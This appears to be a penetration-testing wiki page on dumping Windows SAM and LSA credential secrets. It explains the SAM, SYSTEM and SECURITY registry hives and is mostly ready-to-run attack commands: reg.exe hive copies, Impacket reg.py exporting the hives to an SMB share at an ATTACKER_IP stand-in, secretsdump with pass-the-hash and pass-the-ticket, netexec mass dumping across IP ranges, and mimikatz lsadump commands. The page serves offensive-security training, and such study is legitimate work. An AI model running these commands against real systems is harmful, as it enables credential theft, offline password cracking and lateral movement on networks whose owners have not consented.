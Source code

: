 # SAM & LSA Secrets
## Theory
With access to a non-domain joined Windows system, we may benefit from attempting to quickly dump the files associated with the SAM database to transfer them to our attack host and start cracking hashes offline. Doing this offline will ensure we can continue to attempt our attacks without maintaining an active session with a target. Let's walk through this process together using a target host. Feel free to follow along by spawning the target box in this section.
Copying SAM Registry Hives

There are three registry hives that we can copy if we have local admin access on the target; each will have a specific purpose when we get to dumping and cracking the hashes. Here is a brief description of each in the table below:

| Registry Hive | Description |
|------------------|-----------------|
| hklm\sam         | Contains the hashes associated with local account passwords. We will need the hashes so we can crack them and get the user account passwords in cleartext. stores locally cached credentials (referred to as SAM secrets)	|
| hklm\system      | Contains the system bootkey, which is used to encrypt the SAM database. We will need the bootkey to decrypt the SAM database. contains enough info to decrypt SAM secrets and LSA secrets	|
| hklm\security    | Contains cached credentials for domain accounts. We may benefit from having this on a domain-joined Windows target. stores domain cached credentials (referred to as LSA secrets)	|

## Practice
### Exfiltration
=== "Windows"
    ```powershell
    # Using reg.exe save to Copy Registry Hives
    > reg.exe save hklm\sam C:\sam.save
    > reg.exe save hklm\system C:\system.save
    > reg.exe save hklm\security C:\security.save
    ```

=== "UNIX-like"
    [Impacket](https://github.com/SecureAuthCorp/impacket)'s reg.py (Python) script can also be used to do the same operation remotely for a UNIX-like machine.

    !!! Tip
        The attacker can start an SMB server, and indicate an UNC path including his IP address so that the hives get exported directly to his server.

    ```bash
    # save each hive manually
    reg.py "domain"/"user":"password"@"target" save -keyName 'HKLM\SAM' -o '\\ATTACKER_IPs\someshare'
    reg.py "domain"/"user":"password"@"target" save -keyName 'HKLM\SYSTEM' -o '\\ATTACKER_IP\someshare'
    reg.py "domain"/"user":"password"@"target" save -keyName 'HKLM\SECURITY' -o '\\ATTACKER_IP\someshare'

    # backup all SAM, SYSTEM and SECURITY hives at once
    reg.py "domain"/"user":"password"@"target" backup -o '\\ATTACKER_IP\someshare'
    ```

### Secrets dump 
=== "secretsdump"
    [Impacket](https://github.com/SecureAuthCorp/impacket)'s secretsdump (Python) can be used to dump SAM and LSA secrets, either remotely, or from local files. For remote dumping, several authentication methods can be used like pass-the-hash (LM/NTLM), or pass-the-ticket (Kerberos).

    ```bash
    # Remote dumping of SAM & LSA secrets
    secretsdump.py 'DOMAIN/USER:PASSWORD@TARGET'

    # Remote dumping of SAM & LSA secrets (pass-the-hash)
    secretsdump.py -hashes 'LMhash:NThash' 'DOMAIN/USER@TARGET'

    # Remote dumping of SAM & LSA secrets (pass-the-ticket)
    secretsdump.py -k 'DOMAIN/USER@TARGET'
    
    # Offline dumping of SAM & LSA secrets from exported hives
    secretsdump.py -sam '/path/to/sam.save' -security '/path/to/security.save' -system '/path/to/system.save' LOCAL
    ```

=== "crackmapexec/netexec"
    [NetExec](https://github.com/Pennyw0rth/NetExec) (Python) can be used to remotely dump SAM and LSA secrets, on multiple hosts. It offers several authentication methods like pass-the-hash (NTLM), or pass-the-ticket (Kerberos)

    ```bash
    crackmapexec smb <IP/RANGE> --local-auth -u <USERNAME> -p <PASSWORD> --sam/--lsa
    crackmapexec smb <IP/RANGE> -u <USERNAME> -p <PASSWORD> --sam/--lsa

    # Remote dumping of SAM/LSA secrets
    netexec smb $TARGETS -d $DOMAIN -u $USER -p $PASSWORD --sam/--lsa

    # Remote dumping of SAM/LSA secrets (local user authentication)
    netexec smb $TARGETS --local-auth -u $USER -p $PASSWORD --sam/--lsa

    # Remote dumping of SAM/LSA secrets (pass-the-hash)
    netexec smb $TARGETS -d $DOMAIN -u $USER -H $NThash --sam/--lsa

    # Remote dumping of SAM/LSA secrets (pass-the-ticket)
    netexec smb $TARGETS --kerberos --sam/--lsa
    ```

=== "Mimikatz"
    ```bash
    mimikatz > privilege::debug
    mimikatz > token::elevate
    
    # Local dumping of SAM secrets on the target
    lsadump::sam

    # Offline dumping of SAM secrets from exported hives
    lsadump::sam /sam:'C:\path\to\sam.save' /system:'C:\path\to\system.save'
    
    # Local dumping of LSA secrets on the target
    lsadump::secrets
    
    # Offline dumping LSA secrets from exported hives
    lsadump::secrets /security:'C:\path\to\security.save' /system:'C:\path\to\system.save'
    ```

### Cracking Hashes with Hashcat
Check [Brute Force](../BruteForce/BruteForce.md#hashcat)

